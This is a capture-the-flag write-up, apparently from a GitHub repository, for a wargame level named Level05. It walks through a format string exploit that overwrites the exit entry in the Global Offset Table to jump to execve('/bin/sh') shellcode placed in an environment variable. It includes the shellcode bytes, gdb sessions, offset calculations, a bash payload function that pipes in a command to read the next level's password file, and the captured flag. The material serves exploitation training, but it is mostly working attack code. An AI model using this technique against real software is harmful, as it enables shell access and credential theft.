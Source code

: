 # Level05 GOT hijacking and Format String

## Overview

The binary is a simple program that converts uppercase letters in the input to lowercase and then directly executes the string with `printf(s)`, allowing a **format string attack**. However, it terminates the program with `exit(0)`, preventing us from redirecting the flow of the program by modifying the `EIP`. Instead, we need to overwrite the **Global Offset Table** `exit` address to point to a **shellcode** stored in an environment variable (`envp`).

### Main Function

```C
int main(int argc, const char **argv, const char **envp)
{
  char s[100];

  fgets(s, 100, stdin);
  for (int i = 0; i < strlen(s); ++i )
  {
    if ( s[i] >= 'A' && s[i] <= 'Z' )  // If uppercase letter
      s[i] ^= 0x20u;                   // Convert to lowercase
  }
  printf(s);
  exit(0);
}
```

## Payload

### Shellcode

We will use a simple shellcode to execute `execve("/bin/sh", NULL, NULL)`:
```C
execve("/bin/sh", NULL, NULL) = 
"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
```
Exporting it as an environment variable, with a `NOP` (No Operation) padding.
```bash
export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x90\x90\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
```

#### Address

To find the address of our shellcode, we open the program with `gdb` and search for it in the environment addresses.
```bash
(gdb) break main
Breakpoint 1 at 0x8048449
(gdb) run
Breakpoint 1, 0x08048449 in main ()
(gdb) x/200s environ 
...
0xffffd80b: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220...
0xffffd8d3: "\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341\260\vQh//shh/bin\211\343̀"
...
```

The address of our *shellcode* is: `0xffffd8d3`.

### `exit` in the *Global Offset Table*

Next, we need the `exit` address inside the **GOT**.

```bash
(gdb) disassemble exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0   <========
             ^^^^^^
   ...
End of assembler dump.
```

The `exit` address in the **GOT** is `0x80497e0`.

### `printf` Arguments Offset

We need to find out in which position in the **stack** our input `buffer` is, to use it in our **format string attack**.

We use this input:
```
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x
```

#### Breakpoint after `fgets`
We set a breakpoint after receiving the input to print the `buffer` in hexadecimal.
```bash
(gdb) set disassembly-flavor intel 
(gdb) disassemble main 
Dump of assembler code for function main:
    ...
    0x08048475 <+49>:	call   0x8048350 <fgets@plt>
    0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
    ...
(gdb) break *0x0804847a
Breakpoint 1 at 0x804847a
(gdb) run
Starting program: /home/users/level05/level05 
aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x

Breakpoint 1, 0x0804847a in main ()
```

##### Buffer in Hexadecimal
The buffer is stored in the `EAX` register.
```
(gdb) x/8xw $eax
0xffffd688:	0x61616161	0x20782520	0x25207825	0x78252078
0xffffd698:	0x20782520	0x25207825	0x78252078	0x20782520
```
##### Output for Comparison
```
(gdb) continue
Continuing.
aaaa 64 f7fcfac0 f7ec3b11 ffffd6af ffffd6ae 0 ffffffff ffffd734 0 [61616161 20782520 25207825 78252078]
```
Our input `buffer` is in the **10th** position in the stack.

### Payload Construction

#### Recapitulation

| Shellcode Address | Exit GOT Address |
|-------------------|------------------|
| `0xffffd8d3`      | `0x80497e0`      |
| `4294957267`      |                  |

Using the `%n` format specifier directly is impractical because it would require printing `4294957267` characters. We split this process into two steps (writing short by short with `%hn`).

```bash
0xffffd8d3 = ffff  & d8d3
0xffffd8d3 = 65535 & 55507
addr[2]    = 65535 , 55507
````

#### Splitting script
```bash
split_addr() {
    address="$1"
    half1="${address:0:4}"
    half2="${address:4}" 

    int1=$((0x$half1))
    int2=$((0x$half2))

    echo "$address splits into:"
    echo "$half1 -> $int1"
    echo "$half2 -> $int2"
    echo "n1 = $(($int2 - 8))"
    echo "n2 = $(($int1 - $int2))"
}

$ split_addr ffffd8d3
# Output:
# ffffd8d3 splits into:
# ffff -> 65535
# d8d3 -> 55507
# n1 = 55499
# n2 = 10028
```

#### Format String

```
<Exit GOT Address>
<Exit GOT Address + 2>
<addr[1] - 8>x%10$hn
<addr[0]-addr[1]>x%11$hn

0x80497e0 0x80497e2 (addr[1]-8)d%10$hn (addr[0]-addr[1])d%10$hn
```
#### Payload Script
To inject this payload, we modify our splitting script to use the obtained values.

```bash
payload() {
    address="$1"
    half1="${address:0:4}"
    half2="${address:4}" 

    int1=$((0x$half1))
    int2=$((0x$half2))

    n1=$(($int2 - 8))
    n2=$(($int1 - $int2))

    cat <(python -c "print '\xe0\x97\x04\x08\xe2\x97\x04\x08%' + str($n1) + 'x%10\$hn%' + str($n2) + 'x%11\$hn'"; echo "cat /home/users/level06/.pass") - | ./level05
}
```

## Flag

```
payload ffffd8d3
...
f7fcfac0
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```